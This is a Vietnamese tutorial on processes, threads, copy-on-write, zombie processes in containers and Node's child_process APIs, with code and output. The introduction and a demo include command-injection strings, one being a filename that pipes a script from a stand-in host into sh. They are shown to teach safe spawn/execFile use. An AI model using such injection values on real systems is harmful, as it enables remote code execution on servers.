



## Bối cảnh & vấn đề

Một service render PDF chạy headless Chrome (qua Puppeteer) trong container. Ở máy dev nó chạy hoàn hảo. Trên production, sau khoảng ba ngày, mọi request bắt đầu lỗi `Error: spawn /usr/bin/chromium EAGAIN`, log hệ thống ghi `fork: resource temporarily unavailable`. CPU thấp, memory còn dư, restart pod thì hết, ba ngày sau lại bị. Nguyên nhân không nằm ở code render mà ở tầng hệ điều hành: mỗi lần Chrome thoát, vài process con của nó trở thành **zombie**, không ai "nhặt xác", và chúng chiếm dần hết giới hạn số PID của container.

Cùng service đó còn một lỗi khác: tên file upload được nối thẳng vào lệnh `exec('ffmpeg -i ' + filename + ' out.mp4')`. Một user đặt tên file là `a.mp4; curl evil.sh | sh` và server chạy luôn lệnh thứ hai. Cả hai lỗi đến từ việc không hiểu **process** là gì, process con được tạo và dọn dẹp ra sao, và `child_process` của Node khác nhau thế nào.

Bài này xây nền cho cả track: process và thread sở hữu gì, vì sao chuyển qua lại giữa chúng tốn kém, `fork()` dùng copy-on-write như thế nào, và vì sao container làm lộ ra những vấn đề mà máy dev che giấu. Các bài sau (event loop, I/O, `worker_threads`, signal) đều dựa trên những khái niệm này.

**Interview angle:** câu "process vs thread" nghe dễ nhưng interviewer dùng nó để đo độ sâu: bạn có nói được thread chia sẻ gì, crash lan ra sao, và Node map vào mô hình đó thế nào không.

## Khái niệm

### Process

**Process** là một chương trình đang chạy cùng với toàn bộ tài nguyên mà kernel cấp cho nó. Mỗi process có một **virtual address space** riêng (một "bản đồ" địa chỉ ảo mà chỉ nó nhìn thấy), một **PID**, một **file descriptor table** (danh sách file, socket, pipe đang mở), biến môi trường, thư mục làm việc, user/group để kiểm quyền, và ít nhất một thread. Kernel dùng **page table** để dịch địa chỉ ảo của từng process sang RAM thật, nên địa chỉ `0x7fff1000` trong process A và trong process B là hai vùng nhớ khác nhau.

Sự cô lập này là lý do process tồn tại: process A đọc nhầm con trỏ hay crash thì process B không bị ảnh hưởng. Cái giá là giao tiếp giữa hai process phải đi qua kernel (pipe, socket, shared memory có khai báo, signal), chậm hơn và phức tạp hơn đọc một biến chung. Ví dụ: mỗi lần chạy `node server.js` là một process; `cluster.fork()` tạo thêm process Node khác với heap riêng, không nhìn thấy biến của nhau.

### Thread

**Thread** là một luồng thực thi bên trong process. Mỗi thread có **stack riêng**, bộ **register** riêng (bao gồm program counter: đang chạy tới lệnh nào) và thread-local storage riêng. Mọi thứ còn lại được **chia sẻ** với các thread cùng process: heap, code, biến global, file descriptor. Hai thread cùng mở socket số 7 là cùng một socket.

Chia sẻ memory làm thread giao tiếp rất nhanh (chỉ cần đọc/ghi cùng địa chỉ), nhưng cũng là nguồn gốc của **data race**: hai thread cùng sửa một biến mà không đồng bộ thì kết quả sai. Và vì không có ranh giới cô lập, một thread gây segfault sẽ giết **cả process**, kéo theo mọi thread khác. Ví dụ: một server Java thread-per-request có 200 thread cùng đọc một `HashMap` cache; nếu một thread ghi mà không lock, các thread khác có thể đọc thấy cấu trúc nửa vời.

### Node.js nằm ở đâu trong mô hình này

Câu "Node.js là single-threaded" chỉ đúng với **JavaScript của bạn**: mọi callback, mọi đoạn code JS chạy trên **một main thread** duy nhất. Nhưng process Node có nhiều thread khác. Một process Node 22 trên Linux sau khi gọi một thao tác `fs` có 11 thread (đếm từ `/proc/<pid>/task` ở phần ví dụ): main thread, 4 thread `libuv-worker` (threadpool cho `fs`, `dns.lookup`, `crypto`, `zlib`), và các thread nền của V8 (GC song song, compiler, scheduler).

**`worker_threads`** tạo thread thật trong cùng process, nhưng mỗi worker có **V8 isolate riêng**: heap JS riêng, event loop riêng. Vì vậy hai worker không thể cùng trỏ vào một object JS như hai thread Java; chúng trao đổi bằng `postMessage` (copy dữ liệu) hoặc chia sẻ vùng byte thô qua `SharedArrayBuffer`. Đây là lựa chọn thiết kế có chủ đích: V8 không được thiết kế để nhiều thread cùng thao tác một heap, và JS không có từ khoá `synchronized`. Chi tiết ở bài [tận dụng nhiều core](/tracks/os-concurrency/learn/multicore-node).

**Interview angle:** follow-up kinh điển "vì sao hai worker không share object được?" Trả lời: mỗi worker là một isolate với heap và GC riêng; chia sẻ object sẽ cần lock trên mọi truy cập heap, điều V8 và ngôn ngữ JS không hỗ trợ.

### Context switch

**Context switch** là việc kernel dừng thread đang chạy trên một CPU core, lưu trạng thái của nó (register, program counter, stack pointer) vào memory, rồi nạp trạng thái của thread khác để chạy tiếp. Nó xảy ra khi hết **time slice** (lượt chạy), khi thread tự block (chờ I/O, chờ lock), hoặc khi có thread ưu tiên cao hơn sẵn sàng.

Chi phí có hai phần. **Chi phí trực tiếp** là vào kernel, lưu và nạp register: cỡ micro-giây (verify: con số cụ thể phụ thuộc CPU, kernel và biện pháp chống Spectre/Meltdown). **Chi phí gián tiếp** thường lớn hơn: thread mới chạy với CPU cache và TLB (bộ đệm dịch địa chỉ) đang chứa dữ liệu của thread cũ, nên hàng nghìn lệnh đầu tiên liên tục cache miss. Switch giữa hai **process** còn phải đổi page table; switch giữa hai thread cùng process thì không, nên rẻ hơn.

Mỗi thread còn tốn memory cho stack: glibc trên Linux mặc định reserve theo `ulimit -s` (thường 8 MB địa chỉ ảo), JVM mặc định khoảng 1 MB mỗi thread (verify). Phần lớn là địa chỉ ảo chưa dùng tới, nhưng với 10.000 thread thì vẫn là áp lực lên memory và lên scheduler.

### Vì sao thread-per-request suy sụp khi có 10.000 request chậm

Mô hình **thread-per-request** gán một thread cho mỗi request; thread đó block khi gọi DB rồi chạy tiếp khi có kết quả. Với 200 request đồng thời, mọi thứ ổn. Với 10.000 request mà mỗi cái chờ upstream 2 giây, server cần 10.000 thread: hàng GB stack, và scheduler liên tục đánh thức/ngủ thread nên CPU tiêu vào context switch và cache miss thay vì việc thật. Latency tăng, throughput giảm dù CPU "bận".

Đây là **C10k problem** cuối thập niên 1990, và lời giải là I/O multiplexing (`epoll`, `kqueue`) cho phép **một** thread theo dõi hàng nghìn socket (xem bài [I/O models](/tracks/os-concurrency/learn/io-models-libuv)). Node, Nginx, Netty chọn đường event loop; Go goroutine và Java virtual thread chọn đường "thread nhẹ" do runtime quản lý (so sánh ở bài [concurrency & event loop](/tracks/os-concurrency/learn/concurrency-event-loop)).

**Interview angle:** nói được chi phí gián tiếp (cache/TLB) và memory stack, không chỉ "switch tốn CPU", là điểm phân biệt senior.

### fork, exec và copy-on-write

Trên Unix, process mới được tạo bằng **`fork()`**: kernel nhân bản process gọi nó, process con nhận bản sao address space, FD table, biến môi trường. `fork()` trả về hai lần: trong cha trả PID của con, trong con trả 0. Muốn chạy một chương trình khác, con gọi tiếp **`exec()`** để thay toàn bộ address space bằng chương trình mới (ví dụ `ffmpeg`). `spawn` của Node làm cặp `fork`+`exec` này bên dưới (libuv có thể dùng `posix_spawn` hoặc `vfork` tuỳ nền tảng (verify)).

Copy toàn bộ memory mỗi lần `fork()` sẽ rất tốn, nên kernel dùng **copy-on-write (COW)**: cha và con ban đầu **dùng chung** các page vật lý, đánh dấu read-only. Chỉ khi một bên **ghi** vào một page, CPU báo page fault, kernel mới copy riêng page đó (4 KB) cho bên ghi. Nếu con gọi `exec()` ngay, gần như không page nào bị copy.

COW giải thích một sự cố kinh điển của Redis: `BGSAVE` fork một process con để ghi snapshot RDB trong khi process cha tiếp tục nhận write. Mỗi key bị sửa trong lúc snapshot chạy làm page chứa nó bị copy. Với workload ghi nhiều, gần như mọi page bị copy và memory **gần gấp đôi**: Redis 10 GB trên host 12 GB bị OOM-kill mỗi đêm. Redis docs khuyên để headroom memory, đặt `vm.overcommit_memory = 1`, và tắt **Transparent Huge Pages**: với page 2 MB, chỉ một byte bị ghi cũng khiến kernel copy cả 2 MB thay vì 4 KB.

### Zombie và orphan

Khi process con kết thúc, kernel không xoá nó ngay. Nó giữ lại một entry nhỏ chứa PID và **exit status**, chờ cha gọi `wait()`/`waitpid()` để đọc. Trong khoảng đó process ở trạng thái **zombie** (cột `STAT` hiện `Z`, `ps` ghi `<defunct>`). Zombie không tốn CPU hay memory đáng kể, nhưng **chiếm một PID**. Cha gọi `wait()` gọi là **reap** (nhặt xác).

**Orphan** là process con mà cha đã chết trước. Kernel gán nó cho **PID 1** (hoặc một "subreaper" nếu có), và PID 1 có trách nhiệm reap nó khi nó kết thúc. Trên máy thường, PID 1 là `systemd` hay `init`, làm việc này rất tốt. Trong container, PID 1 là **process đầu tiên của container**: thường chính là `node server.js`. Node reap các con **trực tiếp** của nó (libuv theo dõi `SIGCHLD` cho process do nó spawn), nhưng không reap "cháu" bị mồ côi rồi gán cho nó. Chrome, shell script chạy nền (`cmd &`) sinh ra đúng loại cháu này, và chúng thành zombie vĩnh viễn cho tới khi container restart.

**Interview angle:** "Puppeteer service chết với `fork: resource temporarily unavailable`" gần như luôn là zombie + PID limit. Fix: một init nhỏ làm PID 1 (`tini`, `dumb-init`, `docker run --init`).

### child_process: spawn, exec, execFile, fork

Node có bốn cách tạo process con, khác nhau ở hai trục: **có qua shell không** và **stream hay buffer output**.

- **`spawn(cmd, args)`**: không qua shell (mặc định), stdout/stderr là **stream**. Hợp với lệnh chạy lâu, output lớn như `ffmpeg`, và bạn kiểm soát được backpressure, timeout, `kill()`.
- **`execFile(cmd, args)`**: không qua shell, nhưng **buffer** toàn bộ output vào memory rồi trả một lần. Tiện cho lệnh ngắn (`git rev-parse HEAD`).
- **`exec(commandString)`**: chạy qua `/bin/sh -c`, buffer output (giới hạn `maxBuffer`, mặc định 1 MB). Tiện cho pipeline shell, nhưng **nối input của user vào chuỗi lệnh là command injection**.
- **`fork(modulePath)`**: một biến thể của `spawn` chuyên chạy một process **Node** khác, có sẵn kênh **IPC** (`process.send`, `on('message')`). `cluster` dùng `fork` bên dưới.

Một điểm hay bị hỏi: nếu process cha crash, process con **không tự chết**. Nó thành orphan và chạy tiếp (ffmpeg vẫn encode, vẫn tốn CPU). Ngoại lệ: trong container mà cha là PID 1, container dừng thì kernel giết mọi process trong PID namespace đó.

## Cơ chế hoạt động

### Vòng đời của một process



Một process sau khi được tạo nằm ở **Ready**: sẵn sàng chạy, chờ tới lượt. Scheduler chọn nó thì nó sang **Running** trên một core. Từ đây có ba lối ra. Hết time slice thì kernel **preempt** (giành lại CPU) và đẩy về Ready, đây là context switch "không tự nguyện". Gọi một syscall phải chờ (đọc socket chưa có dữ liệu, chờ mutex) thì sang **Blocked**, context switch "tự nguyện", và nó không tốn CPU cho tới khi được đánh thức. Kết thúc (tự `exit` hoặc bị `SIGKILL`) thì sang **Zombie**, và chỉ biến mất hẳn khi cha reap. Thread cũng đi qua đúng các trạng thái Ready/Running/Blocked này; kernel Linux lập lịch theo thread (gọi là task), không theo process.

### fork, exec, wait và nơi zombie sinh ra



Sơ đồ mô tả đúng thí nghiệm ở phần ví dụ. Node spawn một shell, shell chạy `sleep` ở nền rồi thoát ngay. Node biết về shell (con trực tiếp) nên reap nó. Nhưng `sleep` là cháu, mồ côi khi shell thoát, và được gán cho PID 1, tức chính Node. Khi `sleep` kết thúc, không có code nào gọi `waitpid` cho PID đó, nên nó nằm lại trong process table ở trạng thái `Z`. Một init thật như `tini` làm PID 1 sẽ reap mọi process mồ côi, và forward signal cho app (xem bài [signals & graceful shutdown](/tracks/os-concurrency/learn/signals-graceful-shutdown)).

### Copy-on-write khi fork



Sau `fork()`, hai page table trỏ cùng page vật lý, cả hai đánh dấu read-only. Khi cha (Redis đang nhận write) ghi vào page X, CPU báo page fault vì page read-only. Kernel copy page X thành X', gán X' cho cha với quyền ghi, con vẫn giữ X gốc: con nhìn thấy một **snapshot** nhất quán tại thời điểm fork mà không cần copy trước. Đó là lý do Redis snapshot được hàng chục GB "gần như miễn phí", và cũng là lý do memory tăng theo lượng page bị ghi trong lúc snapshot chạy.

## Ví dụ thực tế

### Thread chia sẻ process, process thì không

Chạy trực tiếp bằng Node 24 (Node 22.18+/23.6+ chạy được file `.ts` nhờ type stripping (verify)), trong thư mục có `package.json` chứa `{"type": "module"}`:

```ts
// proc-thread.ts
import { Worker, isMainThread, threadId } from 'node:worker_threads';
import { fork } from 'node:child_process';
import { once } from 'node:events';

const g = globalThis as typeof globalThis & { counter: number };
g.counter = 0;

if (process.argv[2] === 'child') {
  g.counter += 100;
  console.log(`[child process] pid=${process.pid} ppid=${process.ppid} counter=${g.counter}`);
} else if (isMainThread) {
  g.counter = 1;
  console.log(`[main]          pid=${process.pid} threadId=${threadId} counter=${g.counter}`);
  await once(new Worker(new URL(import.meta.url)), 'exit');                 // thread: cùng process
  await once(fork(new URL(import.meta.url).pathname, ['child']), 'exit');   // process: pid mới
  console.log(`[main]          counter vẫn = ${g.counter}`);
} else {
  g.counter += 10;
  console.log(`[worker]        pid=${process.pid} threadId=${threadId} counter=${g.counter}`);
}
```

Output thật (macOS, Node 24.21):

```text
[main]          pid=37518 threadId=0 counter=1
[worker]        pid=37518 threadId=1 counter=10
[child process] pid=37519 ppid=37518 counter=100
[main]          counter vẫn = 1
```

Worker có **cùng PID** với main (cùng process, khác thread) nhưng `counter` của nó bắt đầu từ 0: nó có isolate và global riêng. Process con có PID mới, `ppid` trỏ về cha. Không cái nào sửa được `counter` của main. Muốn chia sẻ state giữa chúng phải dùng message, `SharedArrayBuffer`, hoặc một kho ngoài (Redis, DB).

### Đếm thread của một process Node

```bash
docker run --rm node:22-alpine sh -c '
  node -e "require(\"fs\").readFile(\"/etc/hostname\",()=>{}); setTimeout(()=>{},2000)" &
  sleep 1
  grep Threads /proc/$!/status
  for t in /proc/$!/task/*; do cat $t/comm; done | sort | uniq -c'
```

Output thật (Node 22.23, Linux arm64):

```text
Threads:	11
      1 DelayedTaskSche
      4 libuv-worker
      6 node
```

Bốn `libuv-worker` là threadpool mặc định (`UV_THREADPOOL_SIZE=4`), được tạo lười khi có thao tác đầu tiên cần nó (ở đây là `readFile`). Các thread `node` còn lại là main thread và worker nền của V8 platform (GC, compile). "Single-threaded" chỉ đúng với JS của bạn.

### Tái hiện zombie khi Node là PID 1

```ts
// zombie.ts: spawn shell chạy một lệnh nền rồi thoát ngay
import { spawn, execSync } from 'node:child_process';
for (let i = 0; i < 3; i++) spawn('sh', ['-c', 'sleep 0.2 & exit 0']);
setTimeout(() => {
  console.log(execSync('ps -o pid,ppid,stat,comm').toString());
  process.exit(0);
}, 1000);
```

```bash
docker run --rm -v "$PWD":/app -w /app node:22-alpine node zombie.ts          # node là PID 1
docker run --rm --init -v "$PWD":/app -w /app node:22-alpine node zombie.ts   # tini là PID 1
```

Output thật (bản gốc chạy file `.mjs` tương đương trên Node 22):

```text
--- node là PID 1
PID   PPID  STAT COMMAND
    1     0 S    node
   15     1 Z    sleep
   17     1 Z    sleep
   19     1 Z    sleep
   20     1 R    ps

--- docker run --init
PID   PPID  STAT COMMAND
    1     0 S    docker-init
    7     1 S    node
   21     7 R    ps
```

Ba `sleep` có `PPID 1` và `STAT Z`: mồ côi, được gán cho Node, rồi thành zombie. Với `--init`, `docker-init` (chính là `tini`) làm PID 1, nhặt mọi process mồ côi, và Node chỉ còn là PID 7. Một service spawn Chrome mỗi request mà không có init sẽ tích zombie tới khi chạm giới hạn PID của cgroup (`pids.max`) hoặc của kernel, lúc đó mọi `fork` trả `EAGAIN`. Trên Kubernetes không có `--init`; dùng `tini` trong image (`ENTRYPOINT ["/sbin/tini", "--"]`) hoặc `shareProcessNamespace: true` để pause container làm PID 1.

### spawn vs exec: injection và buffer

```ts
// spawn-exec.ts
import { exec, execFile, spawn } from 'node:child_process';
import { promisify } from 'node:util';

const userInput = 'video.mp4; echo PWNED-by-shell';            // tên file do user gửi lên

// ❌ exec: nối chuỗi rồi đưa cho /bin/sh → shell hiểu dấu ; là lệnh thứ hai
const { stdout } = await promisify(exec)(`echo processing ${userInput}`);
console.log('exec     →', stdout.trim().split('\n'));

// ✅ execFile/spawn: args là mảng, không qua shell → ; chỉ là ký tự trong tên file
const r = await promisify(execFile)('echo', ['processing', userInput]);
console.log('execFile →', r.stdout.trim().split('\n'));

// exec buffer toàn bộ stdout: vượt maxBuffer (mặc định 1 MB) là lỗi
await promisify(exec)('head -c 2000000 /dev/zero').catch((e: NodeJS.ErrnoException) => console.log('exec 2MB →', e.code));

// spawn stream dữ liệu: đếm byte mà không giữ trong memory
const p = spawn('head', ['-c', '50000000', '/dev/zero']);
let bytes = 0;
p.stdout.on('data', (c: Buffer) => { bytes += c.length; });
p.on('close', (code, signal) => console.log('spawn 50MB →', { bytes, code, signal }));
```

Output thật:

```text
exec     → [ 'processing video.mp4', 'PWNED-by-shell' ]
execFile → [ 'processing video.mp4; echo PWNED-by-shell' ]
exec 2MB → ERR_CHILD_PROCESS_STDIO_MAXBUFFER
spawn 50MB → { bytes: 50000000, code: 0, signal: null }
```

Dòng đầu là command injection thật: shell chạy lệnh thứ hai. Dòng hai: cùng input, không qua shell, dấu `;` vô hại. Dòng ba: `exec` giữ output trong memory và vỡ ở 1 MB. Dòng bốn: `spawn` stream 50 MB mà không giữ lại byte nào. Với ffmpeg trên video upload, lựa chọn đúng là `spawn('ffmpeg', ['-i', inputPath, ..., outPath])`, kèm timeout (`AbortSignal.timeout()` truyền vào option `signal`), giới hạn số process đồng thời (semaphore), và tốt nhất là chạy ở worker của job queue thay vì trong API process.

## Trade-offs & lựa chọn thay thế

| Cơ chế | Cô lập | Chia sẻ memory | Chi phí tạo | Crash ảnh hưởng | Dùng khi |
|---|---|---|---|---|---|
| Nhiều process (`cluster`, nhiều pod) | Cao | Không (IPC/Redis) | Cao (process Node mới ~ vài chục MB) | Chỉ process đó | Scale HTTP trên nhiều core, cô lập lỗi |
| OS thread (Java, C++) | Thấp | Toàn bộ heap | Trung bình | Cả process | Runtime có sẵn lock, memory model |
| `worker_threads` | Trung bình (isolate riêng) | Chỉ `SharedArrayBuffer` | Vài chục ms + memory isolate | Worker lỗi phát `'error'`, crash native thì cả process | Tác vụ CPU trong cùng service |
| `spawn` | Cao | Không (stdin/stdout) | fork+exec | Chỉ con | Chạy binary ngoài (ffmpeg, git), output lớn |
| `execFile` | Cao | Không | fork+exec | Chỉ con | Lệnh ngắn, output nhỏ |
| `exec` | Cao | Không | fork+exec+shell | Chỉ con | Pipeline shell cố định, **không** có input user |
| `fork` (child_process) | Cao | Không (IPC JSON) | Process Node mới | Chỉ con | Tách tác vụ Node dài, cần kênh message |

Chọn theo câu hỏi "cần chia sẻ gì và chịu được crash lan tới đâu". Cần tận dụng core cho HTTP: nhiều process (trên Kubernetes là nhiều pod). Cần tính toán nặng mà vẫn trả kết quả trong request: `worker_threads` pool. Cần chạy chương trình không phải Node: `spawn` (hoặc `execFile` cho lệnh ngắn). Chỉ dùng `exec` khi chuỗi lệnh là hằng số trong code. Khi tác vụ vừa nặng vừa có thể chạy bất đồng bộ, tách hẳn sang worker service đọc từ queue để scale và cô lập độc lập.

## Edge cases & failure modes

- **Cạn PID**: zombie tích tụ hoặc fork bomb chạm `pids.max` của cgroup, mọi `spawn` lỗi `EAGAIN` dù CPU/RAM còn dư. Kiểm tra `ps -eo stat | grep -c Z`, `cat /sys/fs/cgroup/pids.current`.
- **Cha crash, con chạy tiếp**: ffmpeg mồ côi tiếp tục ăn CPU và giữ file tạm. Khi cha khởi động lại, nó không biết con cũ. Ghi PID vào job record, hoặc dùng `detached: false` kèm dọn dẹp khi `exit`, hoặc để process group bị kill cùng nhau (`process.kill(-pid)` với `detached: true` (verify)).
- **fork trong process nhiều thread**: `fork()` chỉ copy **thread gọi nó**. Nếu thread khác đang giữ một mutex (ví dụ lock của `malloc`), mutex đó bị copy ở trạng thái "đang khoá" mà không ai mở, và con có thể treo. Vì vậy con chỉ nên gọi `exec` ngay sau fork, đúng như `spawn` làm.
- **COW bùng memory**: Redis `BGSAVE`/AOF rewrite, hoặc Python/Ruby pre-fork server khi GC chạm vào mọi object (đánh dấu bit trong header làm "bẩn" page), khiến memory chia sẻ biến thành memory riêng. Theo dõi RSS của cả cha và con trong lúc snapshot.
- **Overcommit từ chối fork**: với `vm.overcommit_memory = 2` hoặc heuristic mặc định, process 10 GB fork có thể bị từ chối `ENOMEM` vì kernel sợ không đủ memory nếu mọi page bị copy. Redis log cảnh báo đúng điều này khi khởi động.
- **`exec` với output lớn hơn `maxBuffer`**: process con bị kill, bạn nhận `ERR_CHILD_PROCESS_STDIO_MAXBUFFER`, và output bị cắt. Dễ lọt qua test vì dữ liệu test nhỏ.
- **Hàng nghìn thread blocking**: Java/.NET server với pool 2.000 thread chờ upstream chậm: memory stack tăng, context switch tăng, và khi upstream hồi phục thì 2.000 thread cùng tỉnh dậy (thundering herd).

## Pitfalls

- ❌ "Node single-thread nên chỉ có một thread" → ✅ JS chạy trên một thread, nhưng process có threadpool libuv và thread của V8. Điều này quan trọng khi đọc metric thread hoặc tính CPU.
- ❌ `exec('ffmpeg -i ' + file)` → ✅ `spawn('ffmpeg', ['-i', file, ...])`: không shell, không injection, stream output. Nếu buộc phải dùng shell, validate input bằng allowlist, không phải blacklist ký tự.
- ❌ Chạy app trực tiếp làm PID 1 khi app spawn process con (Chrome, shell script) → ✅ `tini`/`dumb-init`/`docker run --init` làm PID 1 để reap zombie và forward signal.
- ❌ Nghĩ rằng giết process cha sẽ dọn process con → ✅ con thành orphan và chạy tiếp; dọn tường minh khi shutdown, đặt timeout cho mọi process con.
- ❌ Tạo `worker_threads` hoặc process mới cho **mỗi request** → ✅ dùng pool tái sử dụng; chi phí khởi tạo (vài chục ms, vài chục MB) ăn hết lợi ích.
- ❌ Cho Redis dùng gần hết RAM của host → ✅ chừa headroom cho COW khi `BGSAVE`, tắt THP, đặt `vm.overcommit_memory = 1` theo khuyến nghị của Redis.
- ❌ Tăng số thread để "xử lý nhiều request hơn" trên server blocking → ✅ đo context switch (`vmstat` cột `cs`, `pidstat -w`); nếu tăng vọt, chuyển sang async I/O hoặc giới hạn concurrency ở cửa vào.

## Tóm tắt

- Process sở hữu address space, PID, FD table, env; cô lập nên crash không lan, nhưng giao tiếp phải qua kernel.
- Thread có stack/register riêng, chia sẻ heap, code và FD với thread cùng process; nhanh nhưng dễ data race, và một segfault giết cả process.
- Node: JS chạy trên một thread, process còn có 4 thread libuv mặc định và thread V8; `worker_threads` là thread thật với isolate và heap JS riêng.
- Context switch tốn trực tiếp (lưu/nạp register) và gián tiếp (cache/TLB lạnh); thread-per-request với 10k request chậm tốn memory stack và CPU cho switching, dẫn tới epoll và event loop.
- `fork()` dùng copy-on-write: page chỉ bị copy khi có bên ghi; Redis `BGSAVE` có thể gần gấp đôi memory khi ghi nhiều, cần headroom và tắt THP.
- Zombie là con đã exit mà cha chưa `wait()`; orphan được gán cho PID 1. Trong container, app làm PID 1 không reap cháu, nên dùng `tini`/`--init`.
- `spawn` (stream, không shell) cho ffmpeg; `execFile` cho lệnh ngắn; `exec` qua shell và buffer 1 MB, không bao giờ nối input user; `fork` cho process Node có IPC.
